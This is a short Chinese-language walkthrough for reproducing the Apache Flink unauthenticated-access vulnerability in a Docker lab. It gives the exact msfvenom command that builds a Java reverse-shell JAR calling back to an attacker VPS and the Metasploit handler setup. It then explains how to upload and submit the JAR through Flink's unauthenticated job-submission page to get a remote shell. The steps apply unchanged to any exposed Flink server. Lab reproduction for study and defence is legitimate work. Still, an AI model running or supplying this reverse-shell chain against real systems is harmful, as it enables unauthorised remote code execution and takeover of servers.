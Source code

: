 
# Apache-Flink未授权访问漏洞

环境搭建：

docker pull scxiaotan2/flink3.1.2:weishouquan   #拉取镜像

docker run -it  scxiaotan2/flink3.1.2:weishouquan  /bin/bash       #启动shell

./start.sh     #启动根目录下的服务

netstat -tlnp      #可以看到8081端口启用了

ifconfig      #查看当前IP地址 比如地址为172.17.0.2  可以访问http://172.17.0.2:8081


# Apache-Flink漏洞复现

Kali linux 下运行msfvenom

生成payload

msfvenom -p java/shell_reverse_tcp LHOST=VPS LHOST LPORT=VPS LPORT -f jar >test.jar

监听端口

msfconsole 

>use exploits/multi/handler

>set PAYLOAD java/meterpreter/reverse_tcp

>set LHOST  192.168.0.4  # 执行ifconfig  查看当前ip是多少这里就写多少

>exploit -j

# 上传文件

访问docker 下flink 环境

http://172.17.0.2:8081

点击 Submit New Job --> Add New-->选择刚刚生成的jar包-->上传成功后点击Submit  即可在msf下反弹一个shell

